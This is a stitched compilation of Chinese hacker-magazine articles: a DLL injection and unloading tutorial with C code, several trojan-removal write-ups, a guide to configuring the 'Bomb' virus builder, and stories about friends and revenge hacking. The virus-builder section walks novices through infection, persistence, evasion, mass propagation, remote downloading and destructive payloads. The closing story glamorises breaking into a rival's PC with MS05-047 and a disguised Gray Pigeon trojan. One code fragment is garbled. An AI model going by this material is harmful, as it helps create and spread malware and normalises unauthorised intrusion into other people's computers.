好了，现在可以尝试着整理这些代码并编译运行。运行 `A2S.exe`，然后开启一个有模块查看功能的进程查看工具（如 IceSword）来查看 `A2S.exe` 的模块。下面是成功加载之后的截图，`Yanyangdaxue.dll` 已经安静地躺在了 `A2S.exe` 的模块列表之中了。


上面我们把注入讲完了，下面我们再来看看对于这类病毒是如何应付的，也就是如何卸载。跟 DLL 的注入过程类似，只不过在这里使用了两个 API：`GetModuleHandle` 和 `FreeLibrary`。这里省去了与注入部分相似或相同的代码：

```c
// 使目标进程调用GetModuleHandle，获得DLL在目标进程中的句柄
DWORD dwHandle, dwID;
LPVOID pFunc = GetModuleHandleA;
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)pFunc, lpBuf, 0, &dwID);
WaitForSingleObject(hThread, INFINITE);
GetExitCodeThread(hThread, &dwHandle);
VirtualFreeEx(hProcess, lpBuf, dwSize, MEM_DECOMMIT);
CloseHandle(hThread);

// 使目标进程调用FreeLibrary，卸载DLL
pFunc = FreeLibrary;
hThread = CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)pFunc, (LPVOID)dwHandle, 0, &dwID);
```

### 毒瘤

```c
(LPVOID)dwHandle = 0; // &dwID
...
// 等待FreeLibrary函数完毕
WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);
CloseHandle(hProcess);
```

上面这段代码非常犀利。对于任何进程中的 DLL 模块都可以用它卸载掉。出于此原因考虑，所以大家慎而用之。文中如有不当的地方，还请原谅。（本文涉及到的工具 A2S.exe 光盘中已收录）

前几日，我一位同学的电脑中了木马，说是卡巴斯基查出了木马但却无法将木马清除。为了便于查杀病毒，我把电脑重新启动至“安全模式”，因为木马一般把自身复制到系统目录下，我就用卡巴斯基直接对 System32 目录进行了扫描……


从图 1 中我们可以看出木马的一些基本信息。既然卡巴斯基无法自动清除这个木马，那么我只有帮卡巴斯基一把了……我们在任务管理器中会看到 rundll32.exe 的进程……

就是它了，现在看你还往哪儿跑？我们把这个伪装的服务删除掉。在安全模式下这个服务并没有开启，所以直接在 cmd 下输入命令 `sc delete winservernamx` 即可……


看来这个 rundll32.exe 文件已经不“干净”了，我从其它电脑上拷贝了一个“干净”的 rundll32.exe。先删除原目录中的 rundll32.exe，再删除 dllcache 里的 rundll32.exe，然后把“干净”的文件拷贝过去……


有经验的黑友肯定都知道 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services` 下的键值都是以 Windows 的系统服务命名的……在服务列表里查到一个名叫 WinServerNamx 的服务，分析得到验证，如图 3。


就这样，我帮了卡巴斯基一个大忙。在此提醒广大读者：查杀木马时一定要注意，杀毒软件不一定能杀死所有病毒、木马；很多时候木马总是在杀毒软件前面。遇到这种情况，我们就要自己动手。

### 反击之“spoolsv.exe”黑暗碰撞

坐到我熟悉的电脑前，打开了 QQ，今天在线的 MM 好多呀！可还没等我聊上三句话，眼前却突然一黑——电脑重启了！这是怎么了？难道和 MM 聊天也犯法？无奈地等着电脑重启，点了一个常用账号，登录进了桌面，却又发现死机了！只好调出任务管理器，注销后重新登录，系统暂时恢复。重新登录 QQ 后又黑屏重启，我开始怀疑是进程问题，决定先打开任务管理器逐个排查（图 1）。


图1

看着那些密密麻麻的进程，才发现自己平时了解太少。于是去搜索相关进程说明，刚找到两个可疑进程的资料，屏幕又黑了一次……


图2


图3

这该死的未知病毒，我恨死你了！第四次来到欢迎界面，登录进入接着查！在经过了七次重启后，终于把那些陌生进程查了个遍，最终将目标锁定在了 “spoolsv.exe”。

“SVCHOST.EXE” 两个进程同样可疑，且网上相关疑问很多。spoolsv.exe 进程名常见说明为 Printer Spooler Service，描述是 Windows 打印任务控制程序；但也可能被 Backdoor.Ciadoor.B 木马、以及其他后门利用。正常路径应在 `C:\Windows\System32\spoolsv.exe`，可通过路径比对判断是否被替换。若路径异常就需要立刻处理。随后又分析了 `SVCHOST.EXE`：它是系统服务宿主进程，会在同一时间承载一组服务，本身对 2000/XP 等系统非常重要，但也常被病毒借用伪装。

文中进一步举例：如系统感染 “w32.welchia.worm” 时，正常 svchost 文件应在 `c:\windows\system32`，若出现在异常目录（如 `c:\windows\system32wins`）就要警惕。可通过任务管理器查看执行路径，或用“Windows 优化大师”等工具批量检查所有 svchost 的路径，一旦发现异常位置应马上检测处理。依据这个思路，作者最终确认问题核心落在 “spoolsv.exe” 上。

解决步骤：右键“我的电脑”进入“计算机管理”，打开“服务和应用程序”→“服务”（图4）。


图4

然后在本页下方将模式调整为“标准”（图5），网上有些人说直接在扩展模式下进行操作即可，其实不然，我曾试过，数分钟后进程仍会重新加载。找到“Print Spooler”，右键单击，选择属性，将它禁用。注意，这里不要直接用左边的“启动/停止此服务”来禁用此进程，数分钟后还会重新加载。经过以上的操作，基本上就 OK 了，看看任务管理器，里面已经 10 分钟没出现此进程了！


- 在“开始”→“运行”栏中输入“MSCONFIG”，运行“系统配置实用程序”（图 6，由于病毒已清除，所以图 6 中已经没有此进程了），点击服务标签，去掉“Print Spooler”项前边的勾，再来到“启动”项，去掉相同或相似项目前的勾（不同系统中名称有所出入）。如果还发现启动标签中有“dumprep 0 -k”一项，也要去掉其前面的勾，我认为二者有一定联系；然后重启来使设置生效。现在我总算是放心了，电脑已经 20 分钟没有重启了，看看管理器，嫌疑进程也没有了，一时间觉得世界都是美好的……

- 为了巩固我们的战果，安装一个不错的杀毒软件是极为必要的，我强力推荐卡巴斯基大叔。安装完毕后，需要重启系统。注意，当系统重启时，按 F8 键，进入安全模式查杀，这样可以保证更彻底，但运行速度相对较慢。查完后重启，进入普通模式，全部搞定！

## 杀“毒”——敲开发自己的病毒

通常计算机病毒都是一些天才程序员或者一些高手编写的，对于菜鸟们来说，要构造自己写出一个病毒来，几乎是一件不可能完成的任务。不过今天，我们就要让菜鸟轻轻松松地“爽”出病毒来。这款功能强大的病毒制造机就是——Bomb 定时炸弹高级版，曾经有人把它比作人们的 CIH 病毒。Bomb 定时炸弹高级版运行后的界面如图 1 所示。


左上方为其主要选项，包括信息、生成文件类型、安装选项、写入注册表、其他启动方式、文件传播类型、目录感染、文件感染、感染方式等许多功能，当用鼠标点击相应功能后，会在界面的下方出现其详细的设置选择。

先来看“信息”选项，名字当然就是病毒的名称，想怎么取就怎么取；作者栏当然是写我们自己喽；版本随便填写。

在“安装选项”有“复制指定目录”和“注册隐藏”两项，选择“复制到指定目录”的话，可以在下面“指定路径”的下拉框中选择一个你想安装的目录位置，我习惯指定“system”。也可以选择隐藏在注册表，“bat 名字”“VBS 名字”“JS 名字”也是随便自己定制。

对于“写入注册表启动项”，这个就不用说了吧，为了让你的病毒更好地自启动，我推荐 Local Machine 和 Current User 这个注册表选项都选上，都是写在 run 键值上，可以改变键名。

而“其他启动方式”的目的也是为了让病毒更好地启动，就不多啰嗦了。要注意的是：Autoexec.bat 和 Winstart.bat 仅限 Win9X 系统。

“文件传播类型”指的是你想利用哪种文件形式传播你的病毒，包括“exe 文件”“bat 文件”“com 文件”等。

对于“目录感染”选项，我建议勾选上“感染全部分区”和“内外网扩散”，这样病毒可以更好地感染，更有病毒的特征。也要注意一下，最右下的“Ebd 方式”选项仅限于 Win9X 系统。

“文件感染”“感染方式”“宏感染”和“Additional 感染”这几项，其实原理都是一样的，和“目录感染”的利用类似，篇幅有限，就不再多介绍了，可以感染各种类型的文件，记得勾选 Win32.parite。a-c 病毒就能感染本地及共享网络上的 Windows 可执行文件，包括 exe 和 scr 文件。

上边的那些选项，是其感染、隐藏的设置，而接下来的自然就是重点部分——病毒攻击选项了，这才是它的特色所在！下面的内容绝对让菜鸟们流口水，嘿嘿，动心了吧！

“定时爆炸”选项，是指定病毒发作的时间，可以具体设定为哪月哪日发作，或者每隔几天发作。“黑色星期五”病毒就要诞生在我们菜鸟手中了，这可是正版病毒的特征哦。

对于“恶作剧”选项，Bomb 在设计上有些缺陷和遗憾，因为里面的选项只限于 Win9X 系统，因此，该选项选不选都无所谓了，毕竟现在的 Win9X 系统基本上都绝迹了。

“尝试攻击硬件”选项，这是个重点项目，因为有点符合 CIH 的性质，“鼠标失控”“屏幕失控”“攻击软驱”“无限碰撞”，想想对方在这些攻击前，气急败坏，手足无措，再配以一双绝望的眼神，哈哈，仿佛一时间，菜鸟的称谓早已经离我们而去，而我们也俨然成了 Internet 上的神，那种满足的感觉，真的就像是在云上飘。唉，有点儿跑题了。这两个选项，前者建议都选上，但唯一的缺陷是前两项仅限于 Win9X 系统。

“文件修改”选项，呵呵，想做坏黑客的话，就自己看着办吧。不过，未经允许删除他人文件可是违法的。这里也可以改变中病毒电脑里的文件属性。

“弹出消息框”选项，把自己想说的话就写上吧，类似 `<script>alert("hello")</script>` 这样的话句，别忘了把“显示消息”勾选上，否则消息是不会显示出来的。

“自我复制”选项，没有自我复制能力的病毒不是好病毒，这里作者充分给出了几种自我复制的形式，按照自己的要求勾选就可以了。

再接下来，就到了传播方式的具体设置，包括“邮件传播”“P2P 传播”“mIRC 传播”“pIRCh 传播”“vIRC 传播”，限于篇幅就不啰嗦了。

在“邮件传播”一项里可以勾选“html 格式”以生成网页木马、钓鱼式或攻击性质的邮件；“P2P 传播”里可以选择简单、复杂等模式，也可以利用“QQ 和 MSN”来进行传播；“mIRC 传播”举例“IRC 克隆人”病毒会将应用广泛的网络聊天工具 mIRC 作为传播渠道。

对于“共享设置”，可以勾选“使用驱动器共享”，然后选择“隐藏共享”，再把共享路径按自己的意思修改完成设置。

“自我保护”选项，主要是为了免杀而设置的，“加密设置”选项共提供了三种加密设置：随机加密、反向加密、密码变异。

“通知设置”选项写上自己的邮箱地址，以便回馈中毒者的信息，更好地了解病毒去向。


在“卸载设置”选项，我们可以选择在几天后卸载，也可以指定卸载日期，卸载后病毒彻底清除。

“文件关联”选项，可以设置与其他文件关联并保存到指定路径下。

“WEB 下载者”选项的作用类似于木马，让病毒自动下载安装文件后运行。在指定 URL 上写入我们自己的网马，并可以指定保存路径。

“Additional 代码”选项，这里可以写入你自己的炸弹代码，比如写入死循环等都可以，以扩展病毒功能。设置完成后点击“生成炸弹”，勾选“我同意以上条款”，再点击“写入配置”。

关于 Bomb 定时炸弹的设置就简单介绍到这儿，更多选项可按需选择。

## 彻底干掉X框里的QQ消息病毒

我的电脑上安装的是 Win98 和 WinXP 双系统，对于个人电脑安全我比较重视，因此杀毒软件总是升级到最新。可偏偏这次病毒并没有放过我，连常用聊天的家人电脑也受到了影响。

上星期回到家，进入 XP 系统查杀，发现病毒包含多个可执行文件，且提示找不到 `.exe` 关联。该病毒利用 QQ 消息传送文件，并且消息一闪而过，不特别留心很难察觉。

我询问后得知，是某天她同事通过 QQ 发来的文件消息，提示是工作文件，结果中招。

我由此判断病毒已感染 QQ 文件，否则系统很难持续异常。我在 Win98 下检查启动项，发现并无明显异常，但注册表相关键值被修改，`.exe` 关联被破坏。

使用修复工具后，`.exe` 关联恢复，但文档关联又被改到 notepad.exe。继续检查注册表主键值并修正，随后下载更新工具进行全面修复。

进入 XP 再次查杀，定位到 TIMPlatform 相关文件受感染，说明病毒确实会借助 QQ 组件传播。

最终我用多种工具清理并修复了文件关联与注册表，系统恢复正常。

这次经历总结：不要只依赖杀毒软件自动处理；要检查硬盘分区、常用文件、启动项与注册表关联；中毒后务必核对 `.exe`、文档等关键关联。

最后提醒大家：提高安全意识，不轻信陌生文件与即时消息附件，必要时手动排查，效果往往更可靠。

### 呵呵木马你别愁

无名的小小菜鸟


现在的木马和病毒几乎是无孔不入。可以说，每天都会有许多新品种上市。倘若你的电脑中了木马或者病毒，请千万别大惊小怪，因为这实在是太正常了。即使是我们这些经常关注网络安全的菜菜，也没有人敢说自己从来没中过木马或病毒。

因为我的电脑里有许多黑客工具，所以有时会关掉杀毒软件的自动监控。结果去了几个网站后，就觉得网络连接有点不正常了，于是重启电脑，难不成自己又中招了？

我用 Ctrl+Alt+Del 调出任务管理器，开始检查进程，发现了一个不“正常”的进程：lasse.exe（图1），不仔细看还以为是 lsass.exe 呢。我立即结束掉这个进程。


既然这个程序没有插入别的进程，而通常木马和病毒都会开机启动，那么在启动项里一定会有所发现。我打开 msconfig，发现在“服务”项中有一个不起眼的系统服务 PlayServer（图2）。

我打开服务查看它的属性，关于 PlayServer 的介绍是“系统服务”（图3）。狂汗，也太简单了吧！对于服务的描述，居然连一丝伪装都没有，这朋友的水平也太菜了吧，一点儿职业水准都没有。


进程结束了，启动项也给揪除了。我又从硬盘中找到 lasse.exe，复制下来，使用 PEiD 查壳。提示的壳为“Microsoft Visual C++ 5.0 [覆盖]”（图4）。因为有个覆盖，所以我担心这个程序有伪装壳或者变形壳，再确认一下：点 PEiD 里的“>>”，打开“额外信息”，查看其他内容。发现“平均信息量”是 7.76（已压缩）；而“EP 检验”及“快速检验”都为“已压缩”（图5），很明显有变异壳或伪装壳。

PEiD 查不出壳，我们要怎么脱壳呢？可惜这个壳做得并不好，在主界面的“EP 区段”中已经注明了“.aspack”，应该是 ASPack 壳。我们直接下载相应的脱壳工具 AspackDie 进行脱壳，很容易就成功了。再检查下脱壳后的文件，提示是“UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo [覆盖]”（图6），是 UPX 壳，这个也简单，再找相应的工具脱壳就是了。

最后再来检查，是“Borland Delphi 6.0 - 7.0”，脱壳成功（图7）。我用 WinHex 查看脱壳后的文件，发现这是一个反向连接的木马，是采用域名转向的。本想还能查到对方的邮箱密码什么的，不过，既然使用的是域名转向，用处就不大了。我把残留的文件删除，又用杀毒软件彻底查杀一遍就 OK 了。

清除这个木马的过程还算简单，如果换成无进程的 DLL 木马，清除起来就得费一番手脚了。

这个木马最大的特点就是使用了变异壳、伪装壳。如何在伪装成那样的情况下寻找到脱壳的办法，这个才是最难的。不过，只要我们细心，相信就一定可以成功。

（文章中涉及到的工具 PEiD 0.94、AspackDie、Upx 脱壳工具，已经收录于光盘中）


### 清除害人的红蜘蛛

作者：思彤

> “当你打开下载的压缩包时，突然出现两个小东西，其中一个一闪就不见了……”

最近一直在看源代码，看得我腰酸背痛腿抽筋……为了挽救我宝贵的身体，我决定到网上去找一些搞笑视频来放松一下。好在这类东西网上多的是。就在我打开一个下载的自动解压缩包的时候，突然出现两个小东西，而且一闪，其中的一个就消失不见了，当然剩下的那一个则是我要看的东西。情况不妙，那个不见的文件是什么东西呢？于是我用 WinRAR 打开那个压缩包进行检查，果然被我发现了，如图1、图2。

这个“Setup=open.exe”是什么东西？用 WinRAR 单独解压缩来看看。解压缩后我首先用 PEiD 对 open.exe 进行查壳，如图3。被加了 ASPack 的壳，先得脱掉它。我从看雪论坛找到了 ASPack 壳的脱壳程序 AspackDie，直接运行 AspackDie，选择要脱壳的程序后，很顺利地就把壳给脱掉了。脱掉壳后，发现病毒是使用 C++ 编写的。现在它在我们面前就是赤裸裸的了，赶快让我们使用 UE 来瞧个究竟吧！大家在使用 UE 查看时要耐心，虽然很乱，但是有用的东西大多都集中在一起，如图4。


木马接收用的邮箱账号密码都已经摆在那里了，当然它的目的我们也可以知道了，上面的 QQ 和梦幻西游已经很清楚地说明了它的目的。而且这位不速之客的来历似乎也告诉我们了——红蜘蛛键盘记录。再往下查看，如图5。


redspider.dll 和 redspider.exe 估计就是服务端安装以后的东西。现在就让我们把它请出我们的地盘吧！先来看看启动项有什么问题，如图6。看来这下它把自己暴露得更加彻底了，这么直接地把自己加入到启动项中。它所在的注册表位置也清楚地写在上面。打开注册表，从中直接搜索 redspider 就可以轻松地找到它了。清除之后我们就可以直接把它请出注册表了。然后来到 system32 目录，它就在那里静静地等待我们（图8），删除之后这个世界就一片清净了。

（文章中涉及到的工具 AspackDie、UE，已经收录于光盘中）

## 我的朋友们

幽灵拨号者

“朋友”这个词多亲切，我们活在这个世界上少不了与别的人接触，自然就会有朋友。有了朋友就不会孤独。有人说：孤独的人是可耻的。我曾天真地认为我喜欢孤独的感觉，就像夜晚躺在孤独慢慢蚕食自己的感觉。可是后来我才发现，其实自己是最怕孤独的，因为现实告诉我自己是无法孤独地存活的。我的名字叫无名，这个名字的由来我早已经忘了。你就当我真的没有名字吧，是因为我的这些朋友才让我有了存在感，本人已经无所谓了。

我从小到大过着平淡、一帆风顺的生活。别人都说我的心态像个老头子，一点不像个年轻人，我的内心缺少激情。还是说说我的朋友吧，不然你们就要睡着了，我可不想让人说我在催眠。

### kyone

我和他认识得最早，大约是在刚上小学的时候。那时我们这里正流行玩红白机，他出现了。他对游戏很痴迷，用现在的话叫职业玩家，可以为游戏放弃一切。看到他“上瘾”的样子，我时常劝他有空多念念书，他总说：“我对这个没有瘾，我玩游戏也就是打发时间，只是我还没发现更有趣的事情而已。”说得多好呀。我看他这辈子就剩打发时间了。由于他长时间缺乏运动，造成了他宽广的体形。他也不喜欢胖胖的感觉，于是就和我说消消肥减减肥。这个借口成了他去通宵的正当理由——这玩意就像减肥药一样，越喝越胖。高三的时候，大家都忙着学习，他开始玩网游，通宵更是家常便饭。他最好的朋友气得把他的招生简章撕去了前半本（前半本是本科，后半本是专科）。幸好非典这时来了，学生都回家复习了，他通宵的机会没了，只能在家好好学习，最后勉强混了个本科，让一堆人恨得牙痒痒。上了大学后自然轻松了许多，不过谁知道还有什么在等着他呢！

kyone 是个对游戏有一定天分的孩子，虽然我这样说他会不高兴的。各种游戏对他来说都不会陌生，他对新事物的熟悉比一般人都要快。我们这里要是新出了一个游戏，他肯定是最先会玩的人。可是他的猜中了开头，却猜错了结尾，他哪个游戏都没有玩精。就像 KOF97 刚出那阵，也是他最先在我们这打通关的，这让他高兴了一阵。格斗游戏玩得就是对战，他在开始时确实成了这里的“格斗之王”，不过等各种高手成长起来后，他就只能欺负那些初学者了。上高中以后，我们这街机绝种了，玩 KOF 也只能在电脑或电视上瞎闹了，没有那种爽快感。kyone 这时用键盘和手柄已经发挥不出来连招了。我笑他：“玩格斗游戏发不了连招，你还混个屁。”可他断然会伤着脸皮和我说：“你懂得什么是武功最高境界吗，知道什么是无招胜有招吗。”我没有再说下去，再说会伤他自尊的。这种现象一直维持到现在。他在星际、CS、魔兽面前也难逃厄运。所以他现在玩魔兽只玩 RPG，你要是在浩方看到他，记得帮我虐他，然后告诉他：“其实你玩得不错，比一般人强。”

### 幽灵拨号者

这是个美国黑客的名字，那个美国小孩虽然身体有病，但头脑倒是很好，而且有不同于常人的毅力（我说的是他的心理有问题）。这些都是幽灵拨号者告诉我的。当时我在网上遇到他时，曾恶意地认为：他起个这么“内裤”的名字是不是和那个美国小孩很像，在心理上。我们第一次相遇是在我上高二时，那时黑客在中美黑客大战后刚刚被老百姓认识，为其披上了一层神秘的面纱。我也是出于好奇才和他结识的，但他在我们刚认识不久就神秘失踪，直到我上大学了才又见到他。

我问他：“这几年上哪去了？”
“当时突然没了兴趣。”他只淡淡地说。
“那你现在又？”
“没办法，兴趣使然。”

又一个被兴趣指使的家伙。

其实他当时要是努力钻研，现在说不定已经是一个高手了呢。唉，谁知道他哪天就喜新厌旧了呢。黑客是一种边缘事物，我们无法从其表面界定他的好坏。对于那些换首页、挂马、删除重要文件等等一些破坏行为，据说管他们叫做“骇客”。幽灵拨号者正是介于它们之间。用武侠小说里的话叫亦正亦邪。我经常在“做坏事”时吓唬他，他总是先表现出一副害怕的样子，然后突然呵呵地对我说：“你个小洗脑。”其实我知道他一点都不害怕，因为他对这些根本不在乎，能让他认真对待的事情我还真没看到。他的黑客技术不错，朋友想看个免费电影，做个 VIP 会员什么的，都会去找他。这自然会让他的那些朋友刮目相看。他也会去干一些比较危险的事情，像帮别人黑个网站，帮某些个愤怒人士攻击一下别人。我记得那次他接了个活，有人让他想法让一个网站半个月没法开。他先入侵了那个网站，删掉了网站的文件并作了垃圾文件处理，让网管无法恢复。本以为这样就行了，可是那个网站还有备份，不到一天就恢复了正常。于是他又组织了一次 DDoS，这回效果显著，那网站暂时关闭了。没想到人家报了警，可是没有明显的证据，警察也没找到幽灵拨号者。当时我非常害怕，可他却像没事人似的，真是皇上不急太监急。

现在也许你能看到幽灵拨号者发表的文章，其实那不是他写的。他这人很懒，不喜欢没事在键盘上敲敲打打（入侵时他的手比谁都溜），那些都是悟缘骨帮着他写的。一个动嘴一个动手，貌似完美的搭档。以后谁要是遇到他，替我和他说：“别什么都不在乎，失去的是找不回来的。”

### 悟缘骨

丫就是一典型的伪文学青年，这是我有限的词汇里唯一能形容他的词了。我们在小学的时候就认识了，那时也还不叫这个名字，我也不知道那时他叫什么。他非常喜欢看书，尤其是小说，常常抱本书就是一天。认识他的人都知道他爱看书，但就是没看到过他看与学习有关的书。有点夸张地说：“如果把他看过的书都放起来可以开个图书馆了。”讽刺的是，他的忘性太大。看完一套武侠小说，当时就能记住情节，和他说一些细节，他会作出恍然大悟的样子。

此人爱好写作，但写出来的文章鲜有人问津。为了提高其文学水平，他开始看一些他平常不喜欢看的书，像道德经、圣经、急救手册这些无聊的东西。他常说能写出好东西的人，心底都有写作的欲望。我估计他的欲望不小，不然怎么会去读那些玩意。高中毕业后，他扬言要写一本回忆高中时的小说，小说里人物的名字都起好了，基本框架也写好了，最后却流产了。爱情太猛烈，在他还没有准备好时就强烈地冲击了他脆弱的心灵。幸好他没有要做诗人，听说做诗人的首要条件就是精神跟正常人不一样，不然我就惨了。

他是我见过最固执的人了，内心的想法不会因为别人而改变。犯了错误，从来都是虚心接受教育，坚决不改。初中时因为犯错误被老师打手板，打完后竟然笑了出来。我从内心里断定这人是个怪物。当你在宿舍与图书馆之间看到一个手里拿着书，匆匆忙忙的人时，上去告诉他：“不要再沉迷在小说的世界里了，逃避是解决不了问题的。”

kyone、幽灵拨号者、悟缘骨是我生命中的朋友，以后可能会有人离去，也可能会有人加入进来，我期待着那一天的到来。

## 侠隐仙踪

我，是一个十足的大网虫。每天除了上班的八小时以外，其余的十六个小时，几乎有十二个小时是在网上度过的。像我这样的网虫可能也有许多，但像我这样的 MM 估计就没几个了吧！

上网的时候我从不玩游戏，什么 QQ 幻想、梦幻西游之类的，我统统不会。原因很简单，最直接的原因就是我不会玩，也没人教我玩。我只会开着一个 QQ 挂在上面，和一些小说作者沟通，但更多的时间还是在写小说。虽然我的小说写得很一般，但时间长了也有一小群死忠 fans，他们的忠贞不渝曾让我不止一次在梦中感动得流泪，甚至有一次我梦见自己一边流着感动的泪珠一边在给他们签名……

就这样，我每天都在网络中天马行空，在不经意间认识了一个网友——小白龙。和他的深交源于他帮着狠狠骂了别人，从此以后我们便“同流合污”“狼狈为奸”了。

我怎么也想不起来刚开始时是怎么跑到他的群里去的。他话很少，隐隐约约地让我感觉到他的忧郁，总是把自己的那扇心门紧锁。正是出于这种好奇，使得我偏偏就喜欢找他聊天，但他总是出于礼貌而有一搭无一搭地和我聊天。和他聊了那么久都没有什么进展，无济于事，无法慰藉他心里的故事。估计这条“鱼”没有上钩的意思，况且味道也不似刚开始时那么鲜美，我决定收起我的金钩——咱钓不到，不钓总可以吧！？

而对如此冥顽不化者，我决定放弃认输。都说射手座的好奇心最强，而且还比较“花心”，看来网上说的倒是一点儿也不假。

我在网络的日子就是整天与小说为伍，在小说里风花雪月，和虚拟的主人公谈情说爱、生生死死。那时和小白的关系不是很要好，不温不火地聊着。不过他建立的一个网站我倒是很愿意去的，在他的 BBS 里做写手——其实写小说第一是消遣稿费，第二就是喜欢别人的吹捧奉承。那种美妙的感觉很棒，就像在天上飘。

我是一个孤芳自赏的人，当然，我的孤芳自赏不同于芙蓉姐姐的孤芳自赏。我喜欢把自己的得意之作收藏在 E-mail 里。这个消息不知是哪个混蛋透露出去的（我后来仔细地想了整整一晚上，似乎我从来没有告诉过别人，只有自己知道），更加可悲的是，我的文学推理有一个叫“天堂飞鸟”的人死皮赖脸、软磨硬泡地要去了我的 E-mail 地址，美其名曰说是要与我邮件联系。见到自己这么受读者爱戴，我差点儿当场又感动得流出眼泪来。一直到最后事情真相大白了，我都没有后悔自己的意志不坚，禁不起对方糖心炮弹的轰击，只怪对方太狡猾，孙子兵法、三十六计深得精髓，且充分利用了我善良而又纯真的心灵，使我不经意间掉入了一个陷阱……

不久之后，我发现自己的几篇爱作竟然在一些报刊上出现了；那些我平时爱如性命、不忍发表的文章居然被发表了！？而且还不是我发表的！气得我差点儿用键盘去砸显示器，还好我没有那么做——再怎么着终归是自己的电脑，要是砸坏了，可就没地方上网了。

这件事让我恼火万分，逢人就说，以期待得到网上更多拥护者的同情及对肇事者强烈的愤慨。最糟的是我竟然不知道是谁干的。激将法、威胁、恐吓……几乎我能想到的所有手段都用过了；可就是没有人敢站出来承认。不仅如此，更糟糕的是我的文章还在不断地丢失，无论我换到哪个邮箱里都依然如此。我愤怒，但却束手无策。想炸它个鸡飞狗跳，来欺负我这个弱女子呀？

直到有一天我无意间将此事告诉了小白，过了很久，电脑那头才给了我一个回复：“小白龙，你是被人家黑了。”

我听了一愣：黑了？黑了是什么意思？小白龙：“就是黑客入侵并控制了你的电脑。”

“啊！！！黑客？？？……”我惊讶得大叫了起来，嘴巴张得大大的。在我的大脑里，电脑与网络的作用不外乎聊天、浏览网页、看电影、听歌、玩游戏之类的，这就像写小说一样简单。而“黑客”这个词却带给了我很大的震惊……

为自己的大惊小怪而感到脸红，“啊！？嗯，我知道了。真气人，我幻想着的美丽情节被突然打断了。”

回到现实中的我，想了良久，又问道：“那我该怎么办？”

小白说：“这好办，找出他，报复他，告诉他你也不是好惹的。”我最终同意了小白的计划：经过小白仔细地推敲，最后认定网友中的“天堂飞鸟”最可疑，因为只有他才知道我邮箱的地址。于是，我连忙说道：“你在哪个网吧的，我马上去找你。”

……

20 分钟不到，我就赶到了那家网吧。虽然已经是晚上 10 点多了，可网吧里仍然是热闹非凡，这么多的人，哪个才是小白呢？我灵机一动，大声喊道：“有谁认识小白的，请举手！”

过了许久，只见网吧的角落里慢慢地伸出了一只胳膊……

我走了过去，只见小白正在那儿玩着网络游戏。看着他那专注的样子，我真是又气又急，也不知道他到底要玩游戏还是要帮我。我抱怨地说道：“小白，我们什么时候开始啊？”

小白连头都没有抬，敷衍地问道：“嗯，现在几点了？”

我愈发地泄气丧气，玩游戏竟然连时间都忘记了，还谈何报复计划啊！但为了保全我尽善尽美的淑女形象，我只好微笑着回答道：“现在已经快夜里 11 点了。”

小白这才抬起头推了推鼻子上的眼镜，天啊！原来小白看起来这么儒雅啊！简单干净的衣着、深邃的眼眸……我有些出神地看着小白，直到小白第二次问话我才不好意思地笑了笑。

小白红了红脸，第三次重复了他的问题：“一般他都几点睡觉啊？”

没办法，只好用我最具有杀伤力的温柔一笑来掩饰我的尴尬：“一般这个时候他已经睡得跟死猪一样了。但今天他好像跟他父母都去他姐姐家看新生儿了，不过，他的电脑应该是在家挂机呢。”


小白摆了一个胜利的姿势，我们开始实施报复计划。从我的 QQ 中，小白很轻松地获取了天堂飞鸟的 IP 地址，又熟练地从他的文件夹里调出了一个个的文件，有条不紊地操作着。我好奇地问他：“你在干什么？”

小白头也不抬地说道：“我在扫描对方的电脑，然后尝试使用溢出程序入侵他，我使用的是最新的 MS05047 漏洞，因为我们现在是在网吧中，普通的反向溢出程序无法利用，而且正向连接的溢出程序成功率又太低，因此我使用的这个溢出程序是从我的网站上将一个配置好的灰鸽子木马的服务端程序植入到对方电脑中并执……”

## 侠隐仙踪

“……行。”他有板有眼地跟我解释着：“这个灰鸽子可是已经被修改过特征码的，而且又加了多层壳，绝对不会被查杀的……”

我越听越糊涂，什么扫描、溢出、MS05-047、灰鸽子、木马、特征码、壳的，我就像在听天书一样，一句也没有听懂。

小白一边操作着一边还给我讲解，他那些专业术语和运用的软件、程序把我弄得一愣一愣的。突然，我意识到坐在我面前的就是传说中的黑客！此时的我两眼发直，四肢抽搐，对小白的看法就像看英雄一样。

我用充满崇拜的口吻问道：“你说的这些都是什么啊？我怎么一点儿都听不懂啊？”

小白笑了，说实话他笑起来的样子挺好看的。他抬起头说道：“这些呢，都是我自己做的软件。看到没有，在灰鸽子的控制端，他已经上线了。现在，我们已经完全控制对方了，我可以随意地更改他的用户名和密码了，也可以任意删改他电脑中的文件。我们可以改了他的密码，让他连电脑都开不开。”

我张大着嘴巴，好像在听天方夜谭一样。天哪，这个世界上居然真的会有这样的人，难怪我的文章会丢掉啊。我又问道：“那你刚才问我他什么时候休息干什么啊？”

小白笑着说道：“你真是个笨蛋啊，我们现在控制他的电脑，他要是在的话，很容易察觉到有人在黑他的电脑。他一关机我们就前功尽弃了。”

我恍然大悟地点点头，其实我还是什么也没有听懂，主要是太要面子了，不能叫他看扁我啊！

小白说：“我把几十个病毒放在他的电脑内，我想凭他的水平是没办法解开的，看他再拽人！”

这似乎有点儿太过分了吧，我有点儿心软地说道：“不用那么狠吧？用得着往他的电脑里放那么多的病毒啊，也许他有很多重要的东西呢。”

小白用赞赏的眼光看着我说：“你还挺善良的啊，不过你放心，这些都是我自己做的假性病毒，让他的电脑假性瘫痪而已。如果有相应的口令，它们会自动消失的。”我这才放心地点点头。

N天之后我在QQ与“天堂飞鸟”的对话如下：

天堂飞鸟：“好了，少子姐姐，我承认是我的错。你能不能帮我把电脑弄好啊？”

我和小白相视一笑，说：“这就是你随便黑别人的下场。”

天堂飞鸟：“我知道错了，拜托了。以后，不，我也没有以后了。我电脑里还有很重要文件呢！”

我问道：“那我先问你，当初你是如何入侵我的电脑的？”

天堂飞鸟：“你的电脑是空口令呀！而且几乎所有的漏洞都没有补上。”

这么丢脸，居然当初是被这么入侵的。好在经过小白N天的修整，我的电脑现在已经是固若金汤了。我说道：“谨记这次教训吧，要知道，人外有人，天外有天！明天你可以在家里上网了，不用天天去网吧了。”

天堂飞鸟感激不尽。

